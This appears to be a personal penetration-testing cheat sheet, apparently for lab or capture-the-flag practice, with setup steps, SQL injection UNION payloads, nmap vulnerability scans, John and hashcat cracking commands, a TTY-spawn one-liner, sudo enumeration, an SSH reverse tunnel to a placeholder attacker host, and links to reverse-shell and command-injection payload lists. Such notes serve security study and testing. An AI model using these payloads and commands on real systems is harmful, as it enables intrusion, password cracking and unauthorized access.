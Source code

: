 # Configuring new machine
Apt-get update && apt-get upgrade <br />
Apt-get dist-upgrade <br />
### Installing rdp
Apt-get install xrdp<br /><br />
After xrdp is installed you can start the server with the following command:<br />
Service xrdp start<br />
Service xrdp-sesman start <br />
update-rc.d xrdp enable <br />

### Install Terminator
sudo apt-get install terminator


### XSS
Cheatsheet: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

### SQL Injection
Cheatsheet: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
' UNION select 1 from information_schema.tables # <br />
' UNION select 1,2 from information_schema.tables #<br />
' UNION select 1,2,3 from information_schema.tables #

' UNION select 1,table_schema,table_name from information_schema.tables #
' UNION select 1,table_name,column_name from information_schema.columns #
### Nmap
Scan for vulnerabilities: nmap -Pn --script vuln 10.x.x.x

### RSA
https://github.com/ius/rsatool<br />
https://github.com/Ganapati/RsaCtfTool

### SSH
https://medium.com/bugbountywriteup/cracking-ssh-private-key-passphrase-459ba17e8d5d


### HASH
Identify hashes: https://hashes.com/en/tools/hash_identifier<br />
Tool to identify hashes: https://gitlab.com/kalilinux/packages/hash-identifier/-/tree/kali/master <br />
- *wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py*<br /> 
- *python3 hash-id.py*
- https://www.hackingarticles.in/beginner-guide-john-the-ripper-part-1/
- john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 crack.txt
- hashcat -m 1410 -a 0 hash:salt --username test_user /usr/share/wordlists/rockyou.txt - sha256 with salt
- https://medium.com/infosec-adventures/identifying-and-cracking-hashes-7d580b9fd7f1
### Active Directory
PowerView-3.0 tips and tricks https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

### Ghostcat
https://github.com/00theway/Ghostcat-CNVD-2020-10487

### Steganogrphy
https://pequalsnp-team.github.io/cheatsheet/steganography-101 <br />
https://github.com/DominicBreuker/stego-toolkit

### Java Deserialization Vulnerabilities
https://github.com/joaomatosf/jexboss

### commands
sudo -l -U user <br />
https://gtfobins.github.io/

### Shell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md  <br />
https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

 enumeration start with “sudo -l -l” 
 If no command is specified, the -l (list) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host. If a command is specified and is permitted by the security policy, the fully-qualified path to the command is displayed along with any command line arguments. If command is specified but not allowed, sudo will exit with a status value of 1. If the -l option is specified with an l argument (i.e. -ll), or if -l is specified multiple times, a longer list format is used. 
 
 -https://netsec.ws/?p=337 - interactive tty
 python3 -c 'import pty;pty.spawn("/bin/bash")'

### SSH tunelling
 - netstat -tulpn - what services are running
 - ssh -R 9001:127.0.0.1:9001 attacker@<attacker_ip>
### command injection 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md

 ### Gobuster
  gobuster dir -u xxx.xx.x.x -w /usr/share/wordlists/dirb/common.txt     
### other
Enable or disable protocols, ciphers, hashes and key exchange algorithms on Windows Server 2008, 2012, 2016 and 2019 : https://www.nartac.com/Products/IISCrypto
